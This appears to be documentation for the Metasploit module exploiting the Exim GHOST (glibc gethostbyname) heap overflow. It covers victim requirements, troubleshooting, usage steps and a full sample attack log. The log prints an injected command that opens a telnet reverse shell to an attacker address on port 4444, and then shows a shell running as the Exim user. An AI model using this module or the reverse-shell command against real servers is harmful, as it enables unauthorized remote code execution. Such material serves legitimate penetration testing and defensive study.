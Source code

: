 ## Vulnerable Application

The Exim GHOST buffer overflow is a vulnerability found by researchers from Qualys.
On March 17th 2015, Qualys released an exploit module demonstrating the exploitability
of this flaw, which is now `exim_gethostbyname_bof` in Metasploit Framework.

When Qualys released the exploit, it included a lot of technical details for debugging
and usage purposes. We decided to put all that here in a more readable format.

### What is "GHOST"

This is a heap based buffer overflow found in GNU C Library's **g**et**host**byname
functions since glibc-2.2 (November 10, 2000), which is part of the Linux operating
system, such as: Debian, Red Hat, CentOS, and Ubuntu.

### Exploitable Requirements

**On the server-side (victim):**

* glibc-2.6 - glibc-2.17: The exploit depends on the newer versions' `fd_nextsize`
(a member of the malloc_chunk structure) to remotely obtain the address of Exim's
`smtp_cmd_buffer` in the heap.
* Exim server. The first exploitable version is Exim-4.77, maybe older. The exploit
depends on the newer versions' 16-KB `smtp_cmd_buffer` to reliably set up the heap as described in the advisory.
* The Exim server also must enable `helo_try_verify_hosts` or `helo_verify_hosts`
in the `/etc/exim4/exim4.conf.template` file. The `verify = helo` ACL might be exploitable
too, but the attack vector isn't as reliable, therefore not supported by the module.

For testing purposes, if you need to find a vulnerable system, you can try Debian 7
(it should come with an exploitable Exim server):
[debian-7.7.0-i386-DVD-1.iso](https://archive.org/download/Debian-7.7.0/debian-7.7.0-i386-DVD-1.iso)

**On the attacker's side:**

* The attacker's IPv4 address must have both forward and reverse DNS entries that match each other
(Forward-Confirmed reverse DNS).

### Troubleshooting

If the `exim_gethostbyname_bof.rb` module has failed on you:

| Failure  | Explanation |
| -------- | ----------- |
| bad `SENDER_HOST_ADDRESS` (nil) | The `SENDER_HOST_ADDRESS` datastore option was not specified |
| bad `SENDER_HOST_ADDRESS` (not in IPv4 dotted-decimal notation) | The `SENDER_HOST_ADDRESS` datastore option was specified, but not in IPv4 dotted-decimal notation |
| bad `SENDER_HOST_ADDRESS` (helo_verify_hosts) | The `SENDER_HOST_ADDRESS` datastore option does not match the IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim). |
| bad `SENDER_HOST_ADDRESS` (no FCrDNS) | the IPv4 address of the SMTP client (Metasploit) has no Forward-Confirmed reverse DNS. |
| not vuln? old glibc? (no leaked_arch) | the remote Exim server is either not vulnerable, or not exploitable (glibc versions older than glibc-2.6 have no fd_nextsize member in their malloc_chunk structure). |
| NUL, CR, LF in addr? (no leaked_addr) | Exim's heap address contains bad characters (NUL, CR, LF) and was therefore mangled during the information leak; this exploit is able to reconstruct most of these addresses, but not all (worst-case probability is ~1/85, but could be further improved). |
| Brute-force SUCCESS followed by a nil reply, but no shell | the remote Unix command was executed, but spawned a bind-shell or a reverse-shell that failed to connect (maybe because of a firewall, or a NAT, etc). |
| Brute-force SUCCESS followed by a non-nil reply, and no shell | The remote Unix command was executed, but failed to spawn the shell (maybe because the setsid command doesn't exist, or awk isn't gawk, or netcat doesn't support the -6 or -e option, or telnet doesn't support the -z option, etc). |

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/exim_gethostbyname_bof```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set SENDER_HOST_ADDRESS [ip]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### SENDER_HOST_ADDRESS

The IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim)

## Scenarios

### Debian 7.7

When everything is dialed in correctly, a successful attack should look like the following:

```
msf exploit(exim_gethostbyname_bof) > run

[*] Started reverse double handler
[*] Trying information leak...
[!] {:heap_shift=>736}
[!] {:write_offset=>128, :error=>"503 sender not yet given"}
[!] {:write_offset=>136, :error=>"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"}
[!] {:error=>["\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given", "", "503 \x89\x10", "177", "177\\177\\177", "vJN\\177\\177\\177\\177"]}
[!] {:leaked_arch=>"x86"}
[!] {:count=>{"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"=>8, "hF\xFE\xB7hF\xFE\xB7er not yet given"=>2}}
[+] Successfully leaked_arch: x86
[+] Successfully leaked_addr: b7fda760
[*] Trying code execution...
[!] ${run{/usr/bin/env setsid /bin/sh -c "sh -c '(sleep 4011|telnet 192.168.1.64 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.64 4444 >/dev/null 2>&1 &)'"}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>21}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>25}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>20}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>8}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>6}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>12}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>19}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>23}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>18}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>14}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>3}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>28}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd02a1", :offset=>26}
[!] {:reply=>{:code=>"550", :lines=>["550 sikVtqGxFOjCBOWTbDupmIuJRmLmShFNqqUYRRPUolyxPmmgLCenEzConuVGWafjgycyRfXulGNwmAOvkqZkGobMyUIMPojZsaziCjVVyvabOrcieEWrLZSgnCCXHeXjIzGGfUALAIubgBEmsKsSWSGa\r\n"]}}
[+] Brute-force SUCCESS
[+] Please wait for reply...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qaNpBmRBEus9XoVZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "qaNpBmRBEus9XoVZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.1.64:4444 -> 192.168.1.166:58859) at 2015-03-19 03:36:52 -0500
[!] {:reply=>nil}

id
uid=104(Debian-exim) gid=112(Debian-exim) groups=112(Debian-exim)
```
